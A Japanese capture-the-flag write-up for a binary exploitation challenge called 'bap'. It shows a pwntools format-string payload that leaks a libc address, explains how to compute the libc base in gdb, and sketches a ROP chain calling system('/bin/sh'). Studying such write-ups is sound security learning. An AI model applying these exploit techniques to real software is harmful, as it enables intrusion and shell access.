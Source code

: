 # bap
> BoF
> ROP
> FSB

## 解法

* ghidraに通すとBoFとFSBが見える
* checksecをすると、canaryもPIEもない
* flagを出力する関数があるわけでもないので、libcリークすればよさそう
* canaryもないのでROPを頑張ればよさそう
* ROPの最後にret mainをすれば何回も攻撃が可能

## libcリーク
```python
payload = b""
payload += b"%29$p" + b"a" * 3
payload += pwn.p64(0)
payload += pwn.p64(0)
ret = 0x00000000004011ce
payload += pwn.p64(ret)
payload += pwn.p64(e.sym["main"])
io.sendline(payload)
buf = io.recvuntil(b"aa")[:-2]
buf = int(buf, base=16)
libc_base = buf - 0x29e40
print(hex(buf))
```
FSBがあるので、良い感じにstack上のlibc由来の関数をgdbで見つける。今回は`libc_start_main+128`みたいな感じのやつがあったので、stack上での値(すなわち、libc_start_main+128のアドレス)を出力させれば良い。が、最初の`%29$p`から詰まった。printfの引数は、5個までレジスタに入り、それ以降はrbp, rbp+8, rbp+10, rbp+18, ... となる。小学生になりきると、rbpから29番目がlibc_start_main+128であることが分かった。`%29$p`は5文字であるため`+ b"a" * 3`を忘れない。これはljustみたいなのでも良いかもしれない。`payload += pwn.p64(ret)`はアラインメントの関係で必要。`0x29e40`は次のように求める。

## libc_baseを求める
libcが配置される場所は実行時に決まるので、その実行時でのlibcのベースアドレスがどこにあるかを知りたくなる。libc_baseを求めるのには、libc内での相対アドレスは変わらないことに着目する。

まず`gdb bap`で実行ファイルを走らせる。この時の%29の出力は、`その実行時のlibcベースアドレス + libc_baseからlibc_start_main+128までの距離`である。この時、`その実行時のlibcベースアドレス`は可変・`libc_baseからlibc_start_main+128までの距離`は不変である。gdb上でvmmapと入力し、libcの部分を見ると、`その実行時のlibcベースアドレス`が分かる。よって、`libc_baseからlibc_start_main+128までの距離`は引き算をすれば求まる。実際にプログラムに攻撃する際は、`%29の出力 - libc_baseからlibc_start_main+128までの距離(0x29e40)`をすると、これがベースアドレスになっていることが分かる。vmmapでデバッグをしながら計算しよう。

## system["/bin/sh"]
あとはROPで/bin/shを実行するだけ。rp++などを使ってガジェットを探しつつやろう。
```
pop rdi; ret;
/bin/sh
system
```
みたいなことをできるといいね。

## 解けた！
解けました。
